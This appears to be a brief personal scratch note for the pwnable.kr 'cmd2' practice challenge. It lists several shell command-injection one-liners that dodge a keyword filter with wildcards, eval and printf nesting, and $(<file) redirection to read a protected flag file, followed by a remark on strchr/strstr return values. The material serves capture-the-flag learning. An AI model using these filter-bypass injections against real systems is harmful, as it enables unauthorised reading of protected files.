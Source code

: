 # pwnable.kr: cmd2

`./cmd2 \$\(\<fl\)`

`printf "echo \$(<$(echo fla*))\n"`

`eval echo eval printf "echo \$(<$(echo fla*))"`

`eval "echo \$(<$(echo fla*))"`

`eval "echo $(<$(echo fla*))"`

`eval echo eval "\$(<$(echo fla*))"`

oops strchr/strstr returns ptr to first occ, but NULL if no occ.


